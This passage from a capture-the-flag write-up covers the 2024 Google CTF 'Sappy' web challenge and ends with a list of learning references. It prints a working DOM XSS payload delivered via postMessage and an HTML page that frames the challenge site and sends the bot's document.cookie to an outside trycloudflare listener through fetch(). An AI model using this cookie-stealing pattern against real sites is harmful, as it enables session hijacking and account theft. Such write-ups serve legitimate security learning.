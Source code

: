 Payload success:

![xss](https://github.com/user-attachments/assets/7dbea1df-fa90-4a7a-96c4-075c7bfd083c)


### Bot cookies

To get cookies I need to make my own html containing an iframe or secondary call to the challenge domain with the dom xss to capture cookies.

Modified postmessage to capture cookies and send it to a listeneing address:

```
iframe.contentWindow.postMessage(JSON.stringify({ method: 'render', page: ',{"html":"<img src=x onerror=fetch(\'https://ut-herbs-warcraft-pumps.trycloudflare.com/?page='+document.cookie+'\')>"}'}),'*')
```

HTML page to be delivered to bot:

```
<!DOCTYPE html>
<html>
<h>blah</h>
<iframe src="https://sappy-web.2024.ctfcompetition.com/sap.html"></iframe>
<script>
    const iframe = document.querySelector("iframe");
    function onIframeLoad(){
        iframe.contentWindow.postMessage(JSON.stringify({ method: 'initialize', host: 'data://sappy-web.2024.ctfcompetition.com'}), '*')
        iframe.contentWindow.postMessage(JSON.stringify({ method: 'render', page: ',{"html":"<img src=x onerror=fetch(\'https://ut-herbs-warcraft-pumps.trycloudflare.com/?page='+document.cookie+'\')>"}'}),'*')
    };
    iframe.addEventListener("load",onIframeLoad)
</script>
</html>

```

When I test the above page locally, it works successfully and the cookies on my local victim device get sent to the listener. But when I try to serve this html to the bot, no cookie is returned.

Here I looked at past writeups and found that the cookie had a secure attribute and had to use HTTPS. I ended up needing to use certificates and to modify my listener. 

The challenge summary: First I needed to find a DOM XSS vulnerability on the challenge site. Next this XSS needed to be exploited to exfiltrate cookie information to a server under my control. Once this was acheived, a malicious html/server needed to be sent to the bot that would open a popup to the DOM XSS affected challenge url to retrieve the cookie information. 

## References & Learning

- favicon
	- youtube: "These Icons Can Track You! New Vulnerability Discovered!"
- python http.server, BaseHTTPRequestHandler
- SSRF
- cloudfare tunneling
- cors, secure cookies, headers
- postMessage
- addEventListener
- iframes
- URL (scheme, host, path, query, fragment)
- https://zimzi.substack.com/p/googlectf-2024-sappy
